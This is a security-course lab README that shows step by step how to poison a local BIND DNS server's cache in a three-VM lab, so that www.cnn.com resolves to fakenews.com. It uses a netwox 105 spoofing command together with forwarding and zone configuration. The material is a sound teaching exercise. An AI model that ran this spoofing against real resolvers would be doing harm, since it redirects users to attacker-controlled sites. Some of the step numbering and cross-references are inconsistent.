 ## Remote DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: Victim (DNS) Client, Victim (DNS) Server, Attacker. All 3 VMs are located in the same network - however, we are not allowed to exploit this fact for the attacks, in other words, the attacker in this lab is not allowed to use wireshark to sniff any packets, or use the *netwox* command to inject forged DNS responses. After all, this lab is trying to demonstrate how attackers from a remote network can still perform DNS cache poisoning.

The following is the IP addresses and MAC addresses for the VMs used in this README.

| VM  |  IP Address   |              Role                     |
|-----|---------------|---------------------------------------|
| VM1 | 172.16.77.128 |   victim (dns) client                 |
| VM2 | 172.16.77.129 |   victim (dns) server                 |
| VM3 | 172.16.77.130 |   attacker, attacker's DNS server     |

### Steps

1. on victim client, configure DNS server information, i.e., let the client know the IP address of the DNS server.

1.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

this screenshot shows editing the file in *vi*:
![alt text](lab-dns-edit-file.png "edit the file")

this screenshot shows the file is now edited:
![alt text](lab-dns-configure-dns.png "configure dns")

1.2. run the following command so the above change will take effect:

```console
# sudo resolvconf -u
```

![alt text](lab-dns-resolvconf.png "resolvconf command")

2. setting up the local DNS server (so that we don't need to actually purchase the domain attacker32.com).

2.1. add the following into /etc/bind/named.conf (so that it forwards all requests for the attacker32.com domain to the malicious DNS server).

```console
zone "attacker32.com" {
    type forward;
    forwarders {
        172.16.77.130; // replace 172.16.77.130 with your attacker VM's IP address, do not remove the ";".
    };
};
```

**Explanation**: the added lines are saying, for DNS inquiries regarding this attacker32.com domain, please forward the inquiries to 172.16.77.130.

2.2. restart DNS server so the above changes will take effect:

```console
$ sudo service bind9 restart
```

3. on attacker VM, run

```console
# sudo netwox 105 --hostname "www.cnn.com" --hostnameip FAKENEWS.com_IP --authns "ns1.fastly.net" --authnsip ATTACKER_IP --filter "src host DNS_SERVER_IP" --ttl 19000 --spoofip raw
```

FAKENEWS.com IP address (as of today, 05/24/2022): 188.126.71.216 (you can use ping command to confirm it)

**Explanation**: '--spoofip raw' means to spoof at IPv4/IPv6 level, as opposed to spoof at the data link layer. In other words, spoof IP addresses, instead of spoof MAC addresses.

this screenshot shows the actual command:

![alt text](lab-dns-attack-command.png "attack command")

4. setting up the attacker DNS server.

4.1. the above attacker_vm folder contains a DNS configuration file called attacker32.com.zone, copy this file into /etc/bind. In this file, change 10.0.2.8 to the attacker VM's IP address, and change the TTL (which is the first entry in this file) from 10000 to 10, i.e., records in the cache expire in 10 seconds.

4.2. add the following into /etc/bind/named.conf (so that the above configuration file will be used):

```console
zone "attacker32.com" {
    type master;
    file "/etc/bind/attacker32.com.zone";
};

zone "cnn.com" {
    type master;
    file "/etc/bind/cnn.com.zone";
};
```

Step 4.3. restart attacker's DNS server so the above changes will take effect:

$ sudo service bind9 restart

4. on victim client, send a query.

```console
# dig www.cnn.com 
```

```console
# dig @ns.attacker32.com www.cnn.com
```

the first *dig* command should show you the correct mapping: 

whereas the second *dig* command should show you that www.cnn.com is mapped to 188.126.71.216, which is the IP address of fakenews.com.
![alt text](lab-dns-attack-success-p1.png "attack success")
![alt text](lab-dns-attack-success-p2.png "attack success")

the goal of this attack is, when the victim runs either of the above two commands, the victim will get the same result, i.e., www.cnn.com is mapped to the IP address of fakenews.com.

5. result verification: on victim client, send a query.

```console
# dig www.cnn.com 
```

```console
# dig @ns.attacker32.com www.cnn.com
```

These two commands should now show the same result, which is www.cnn.com is mapped to 188.126.71.216, which is the IP address of fakenews.com.

6. you are recommended to remove the line you added on the client VM in step 3, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.
